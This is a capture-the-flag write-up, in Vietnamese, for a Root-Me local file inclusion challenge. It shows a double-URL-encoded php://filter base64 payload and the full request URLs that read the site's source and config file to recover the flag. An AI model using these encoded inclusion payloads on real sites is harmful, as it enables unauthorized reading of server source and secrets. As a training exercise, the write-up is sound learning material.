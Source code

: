 # Local File Inclusion - Double encoding

- 30 Points  

- Include can be dangerous

- No hints

# Overview:

![image](https://user-images.githubusercontent.com/115911041/229867328-8eca7f32-7935-45ff-a99e-2c6131de8847.png)

Theo đề bài nói ta cần phải double encode filepath để tránh bị phát hiện.

# Solution:

| Char | simple encoding | double encoding |
| :---:|      :---:      |      :---:      |
| :    | :3A             | : %253A         |
| /	   | : 2F	           | : %252F         |
| .	   | : 2E	           | : %252E         |
| -	   | : 2D	           | : %252D         |
| =	   | : 3D	           | : %253D         |
| <    | : 3C            | : %253C         |
| >    | : 3E            | : %253E         |

Chúng ta sử dụng payload `php://filter` với [base64 encoding](https://www.base64decode.org/). Các payload tham khảo [tại đây](https://github.com/payloadbox/rfi-lfi-payload-list)

`php://filter/convert.base64-encode/resource=cv`

Sau đó double encoding

`php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dcv`

Ta có thể encode cả URL

http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dcv

Ta được kết quả là 1 chuỗi kí tự dài.Copy chuỗi đó vào Base64 encoded ta được

`<?php include("conf.inc.php"); ?>`

Nhận thấy có lệnh `include` vậy chắc chắc flag nằm trong `conf.inc.php` 

http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf

Kết quả ta nhận được là 1 chuỗi dài như lúc trước. Tiếp tục base64 encoded, ta có được flag

![image](https://user-images.githubusercontent.com/115911041/229880520-032057ad-7f3d-496e-917e-e07cdfc600d9.png)
